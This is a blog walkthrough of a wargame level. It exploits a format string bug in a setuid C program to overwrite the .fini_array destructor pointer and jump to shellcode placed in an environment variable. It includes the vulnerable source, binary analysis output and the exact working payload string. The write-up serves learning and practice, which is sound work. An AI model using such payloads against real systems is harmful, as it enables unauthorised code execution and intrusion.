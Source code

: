 ![Logo](/assets/images/belts-yellow.png)

We'll continue with level2 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). This time it will be another classic issues that needs no introduction - _uncontrolled format strings attacks_. To review the previous level, check the link below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8266
0 packages can be updated.
0 updates are security updates.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   level2
```

NX is disabled and now there *is* a stack canary. But let's not worry about this yet, because we might not even be bothered by the presence of the canary. Let's verify that the stack is executable:
```
$ readelf -lW level2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous level that ASLR is disabled on the system and all the addresses are static:

## 1 - Vulnerability

What we have here is a classic uncontrolled format string vulnerability. The value of _buf_ comes from the user and is passed directly as a format string to the _printf_ call. There are so many excellent resources on this type of issues, there is no need for further details. If you're not familiar with it, for a better understanding, please check at least the following two papers. For brevity I will skip most of the details regarding the methodlogy which can be found in those papers.
* team teso - [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* Saif El-Sherei - [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)

```c
#include <stdio.h>
#include <string.h>

__attribute__((destructor)) void end(void) {
        printf("Bye!\n");
}

void helloworld(char* name) {
        char buf[128];

        strncpy(buf, name, 127);
        buf[127] = '\0';

        printf("Hello ");
        printf(buf);
        printf("!\n");
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        helloworld(argv[1]);

        return 0;
}
```

While we're here looking at the code, see if you notice anything unusual. What about the presence of the destructor function that just prints **"Bye!"**? Couldn't that be done just as a normal _printf_ call at the end of the _main_ function? Maybe it is a hint of some sort. Keep that in mind for later!

## 2 - Exploitation

Using the techniques from the second paper mentioned above, we can read and also overwrite any memory location. Exploitation steps:
* Place a shellcode in an environment variable.
* Find the address of the environment variable on the stack.
* Use the format string vulnerability to overwrite the address of the destructor **end** with the address of our environment variable.

To generate an appropriate shellcode and place it in an environment variable, check the previous post. To find out the address of our environment variable on the stack, again check the previous level.

First thing is to find out the address of the _end_ destructor. IDA Pro shows this really quickly if we check the **_.fini_array_** section. Notice also the permissions of this section. This is important because we want to overwrite the location of _end_ function with an address we control.

![ida destructor](/assets/images/bm2-1.png)

We can also use Linux tools to get the same information:

```bash
$ readelf -S  level2    
There are 30 section headers, starting at offset 0x9b8:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ac 0001ac 000080 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804822c 00022c 000074 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080482a0 0002a0 000010 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080482b0 0002b0 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482e0 0002e0 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482e8 0002e8 000030 08   A  5  12  4
  [11] .init             PROGBITS        08048318 000318 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048340 000340 000070 04  AX  0   0 16
  [13] .text             PROGBITS        080483b0 0003b0 000242 00  AX  0   0 16
  [14] .fini             PROGBITS        080485f4 0005f4 000014 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048608 000608 000028 00   A  0   0  4
  [16] .eh_frame_hdr     PROGBITS        08048630 000630 00003c 00   A  0   0  4
  [17] .eh_frame         PROGBITS        0804866c 00066c 0000f0 00   A  0   0  4
  [18] .init_array       INIT_ARRAY      0804975c 00075c 000004 00  WA  0   0  4
  [19] .fini_array       FINI_ARRAY      08049760 000760 000008 00  WA  0   0  4
  [20] .jcr              PROGBITS        08049768 000768 000004 00  WA  0   0  4
  [21] .dynamic          DYNAMIC         0804976c 00076c 0000e8 08  WA  6   0  4
  [22] .got              PROGBITS        08049854 000854 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        08049858 000858 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804987c 00087c 000008 00  WA  0   0  4
  [25] .bss              NOBITS          08049884 000884 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 000884 00002b 01  MS  0   0  1
  [27] .shstrtab         STRTAB          00000000 0008af 000106 00      0   0  1
  [28] .symtab           SYMTAB          00000000 000e68 000480 10     29  45  4
  [29] .strtab           STRTAB          00000000 0012e8 0002a1 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
```

Notice that section 19 - _.fini\_array_ is writable. Exactly what we need. And to dump the section in hex:

```bash
$ readelf --hex-dump=.fini_array level2

Hex dump of section '.fini_array':
  0x08049760 60840408 ad840408                   `.......
```
Second element at 0x08049764 is ad840408, or 0x080484ad - exactly the address of function **end**:
```bash
gdb-peda$ x/wx 0x08049764
0x8049764:      0x080484ad
gdb-peda$ p end
$4 = {<text variable, no debug info>} 0x80484ad <end>
```

Next we need to play a bit with the format string in order to discover how to correctly overwrite the value at address 0x08049764. Again, more explicit details on how to do this can be found in the second referenced paper.  So let's place our shellcode in the EGG environment variable, as we did before and get its address:

```bash
$  /tmp/level2-mod aaa
Hello aaa!
EGG address: 0xffffd8d3
```

**Warning!** If you're testing your exploit in GDB first (and you should), the address of the environment variables on the stack will be slightly different than outside GDB. While in GDB, you can print these addresses  by iterating through the _environ_ array. In my testcase the EGG variable was the 5th element:

```
(gdb) x/s *((char **)environ+4)
0xffffd903:     "EGG=", 'A' <repeats 19 times>
```

This means that in GDB the shellcode begins at **0xffffd903+4** (we add the length of the string _EGG=_ ).

Finding the correct format string involved a bit of trial and error, but in the end I managed to overwrite the address of _end_ destructor with my address.

## 3 - Profit

```
$ /levels/level2 $(printf "\x64\x97\x04\x08JUNK\x65\x97\x04\x08JUNK\x66\x97\x04\x08JUNK\x67\x97\x04\x08")%x%x%x%x%x%149x%n%261x%n%39x%n%256x%n
$ /home/level3/victory
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                            
Subject: Victory!                         
                                          
Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery ensign)
   * the exploit
   
You can now start with level3. If you want, you can log in
as level3 with password  [REDACTED]
```
